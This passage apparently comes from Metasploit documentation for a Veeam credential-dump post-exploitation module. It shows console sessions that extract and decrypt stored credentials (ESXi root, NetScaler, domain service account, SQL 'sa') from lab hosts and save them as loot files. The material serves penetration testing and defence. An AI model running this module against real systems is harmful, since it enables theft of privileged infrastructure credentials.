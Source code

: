 ```
[+]     P: SK!nP0pp3r
[+] Recovered Credential: Linux user
[+]     L: cs137
[+]     P: Quit2Day!
[+] Recovered Credential: ESXi root
[+]     L: root
[+]     P: Quit2Day!
[+] Recovered Credential: CESIUM137\vSphereSvc
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Recovered Credential: NetScaler nsroot
[+]     L: nsroot
[+]     P: Quit2Day!
[+] Decrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vbr_dec_391876.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 1 VOM rows loaded, 1 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] 1 VOM rows processed
[*] 1 rows recovered: 0 plaintext, 1 decrypted (0 blank)
[*] 1 rows written (0 blank rows withheld)
[+] 1 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vom_dec_557706.txt
[*] Post module execution completed
msf post(windows/gather/credentials/veeam_credential_dump) > 
```

Windows Server 2019 host running Veeam ONE with SQL native auth using the `dump` action:

```
msf exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAMONE IPv4 192.168.101.143
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.1.1880
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] Compressed size: 2280
[+] Compressed size: 2344
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAMONE\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: sa
[+]     Database Pass: AintEZB3ingGr33n
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 2 rows exported, 2 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090827_default_192.168.101.143_veeam_vom_enc_319808.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 2 VOM rows loaded, 2 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] Compressed size: 2248
[+] Compressed size: 2312
[+] 2 VOM rows processed
[*] 2 rows recovered: 0 plaintext, 2 decrypted (0 blank)
```